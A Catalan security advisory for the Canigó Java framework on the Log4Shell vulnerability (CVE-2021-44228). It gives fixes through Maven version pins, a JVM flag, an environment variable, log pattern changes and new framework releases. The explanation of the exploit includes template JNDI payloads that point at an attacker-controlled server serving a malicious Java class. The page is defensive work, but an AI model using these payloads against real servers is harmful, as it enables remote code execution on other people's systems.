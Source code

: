 +++
date        = "2021-12-13"
title       = "Canigó. Vulnerabilitat CVE-2021-44228 (Log4Shell)"
description = "Com resoldre la vulnerabilitat detectada CVE-2021-44228 (Log4Shell)"
#section     = "howtos"
#categories  = ["canigo"]
#key         = "GENER2022"
+++

La vulnerabilitat [CVE-2021-44228](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-44228) permet executar codi en un
servidor remot, injectant una petició JNDI `${jndi:(ldap|rmi|etc)}` dins de qualsevol variable que es registri al log del servidor.

Aquesta vulnerabilitat només afecta a les versions 2.x de Log4J i està corregida en la versió 2.16

Per a explotar la vulnerabilitat, es poden seguir els següents passos:

1. En el servidor que allotja l'aplicació vulnerable, es registra la informació que conté la càrrega útil maliciosa.
Per exemple: `${jndi:ldap://[servidor]/[càrrega útil]}`, on el servidor està controlat per l'atacant i la càrrega útil conté les comandes a executar.

2. La vulnerabilitat s'activa i el servidor vulnerable sol·licita al servidor de l'atacant a través de JNDI el codi maliciós.

3. La resposta del servidor de l'atacant conté la ruta a una classe Java maliciosa. Per exemple: `http://[servidor]/exploit.class`,
que s'injecta en el context de l'aplicació vulnerable.

4. La càrrega útil injectada permet a l'atacant executar codi arbitrari.

<br/>
Informació de referència:

* <https://logging.apache.org/log4j/2.x/security.html#CVE-2021-44228/> \
* <https://nvd.nist.gov/vuln/detail/CVE-2021-44228/> \
* <https://securelist.com/cve-2021-44228-vulnerability-in-apache-log4j-library/105210/> \

## Com solucionar la vulnerabilitat a les aplicacions

* **Opció 1**) Substituir la versió de la dependència de la libreria `log4j` en temps de compilació.

    - 1.1) Modificar el fitxer `pom.xml` - **opció recomanada** -, compilar i desplegar l'aplicació:
    > * Sí el JDK és major o igual a `1.8`
```xml
<properties>
<log4j2.version>2.16.0</log4j2.version>
</properties>
```
    > * Sí el JDK és igual a `1.7`
```xml
<properties>
<log4j2.version>2.12.2</log4j2.version>
</properties> 
```
    > * En cas contrari, l'opció d'eliminar la classe maliciosa és vàlida
```sh
zip -q -d log4j-core-*.jar org/apache/logging/log4j/core/lookup/JndiLookup.class
```

    - 1.2) Injectar la variable durant la construcció de l'aplicació, compilar i desplegar l'aplicació:
```sh
mvn -Dlog4j2.version=2.16.0 clean package && java -jar ./target/CanigoLog4jShellTest.war
```

* **Opció 2**) Configurar la variable `log4j2.formatMsgNoLookups` en temps d'execució.

    - 2.1) Injectar la variable (vàlid per a: 2.10 >= log4j <= 2.14.1) i desplegar l'aplicació:
```sh
mvn clean package && java -Dlog4j2.formatMsgNoLookups=true -jar ./target/CanigoLog4jShellTest.war
```

    - 2.2) Afegir una variable d'entorn (vàlid per a: 2.10 >= log4j <= 2.14.1) i desplegar l'aplicació. Veure: https://msrc-blog.microsoft.com/2021/12/11/microsofts-response-to-cve-2021-44228-apache-log4j2/.
```sh
mvn clean package docker:build \
&& docker run -it --rm \
--net=host \
--name="log4jshell-local" \
--memory="1024m" --memory-reservation="1024m" --memory-swap="1024m" --cpu-shares=2000 \
--env LOG4J_FORMAT_MSG_NO_LOOKUPS=true \
canigo/app
```

* **Opció 3**) Modificar el patró de traces configurades al fitxer `log4j.xml` (vàlid per a: 2.7 >= log4j <= 2.14.1), compilar i desplegar l'aplicació. Veure: https://kb.vmware.com/s/article/87093.
```sh
## canviar:
<PatternLayout pattern="canigo Message: %d{dd MM yyyy HH:mm:ss,SSS} %-5p [%t] %-5p [%t] %c - %m%n" />
## per:
<PatternLayout pattern="canigo Message: %d{dd MM yyyy HH:mm:ss,SSS} %-5p [%t] %-5p [%t] %c - %m{nolookups}%n" />
```
> S'ha de canviar el patró del missatge (m, msg, message) per a no permetre lookup: %m{nolookups}, %msg{nolookups} or %message{nolookups}


## Noves versions de Canigó 3.4 i 3.6

S'han alliberat noves versions del Framework Canigó:

* Versions de Canigó 3.4.7 i 3.6.1 per a resoldre aquesta vulnerabilitat als mòduls de Canigó.
Podeu consultar: [Publicació nova versió 3.4.7 i 3.6.1](/noticies/2021-12-13-CAN-actualitzacio-canigo-3_4_7_3_6_1).

* Versió 1.6.8 de l'archetype de Canigó per a generar projectes amb Canigó 3.4.7.
Podeu consultar: [Actualització archetype 1.6.8](/noticies/2021-12-13-CAN-Actualitzacio_archetype_1_6_8/).

* Versió 1.7.1 de l'archetype de Canigó i la versió 1.8.1 del plugin del eclipse per a generar projectes amb Canigó 3.6.1.
Podeu consultar: [Actualització archetype 1.7.1 i plugin Eclipse 1.8.1](/noticies/2021-12-13-CAN-Actualitzacio_archetype_1_7_1_plugin_eclipse_1_8_1/).

Des de CS Canigó es recomana actualitzar a aquestes noves versions. Per a fer-ho, serà necessari revisar les dependències de l'aplicació
per a utilitzar els mòduls de les versions 3.4.7 i 3.6.1. Podeu consultar les matrius de compatibilitat de les versions:

- [Matrius de Compatibilitats 3.4](/canigo-download-related/matrius-compatibilitats/canigo-34/)

- [Matrius de Compatibilitats 3.6](/canigo-download-related/matrius-compatibilitats/canigo-36/)

Un cop es comprovi que s'utilitzen les últimes versions dels mòduls, caldrà modificar el fitxer `pom.xml` per a assegurar l'ús
de la versió 2.16.0 de log4j:

```xml
<properties>
<log4j2.version>2.16.0</log4j2.version>
</properties>
```

Un cop realitzades les adaptacions descrites, comprovar que només s'utilitza la versió 2.16.0 del log4j a l'aplicació mitjançant:

```
mvn dependency:tree
```

<br/><br/>
Per qualsevol dubte relatiu a aquesta nova versió del Framework Canigó us podeu posar en contacte amb el CS Canigó al servei CAN del JIRA CSTD o enviant-nos un correu electrònic a la bústia del CS Canigó.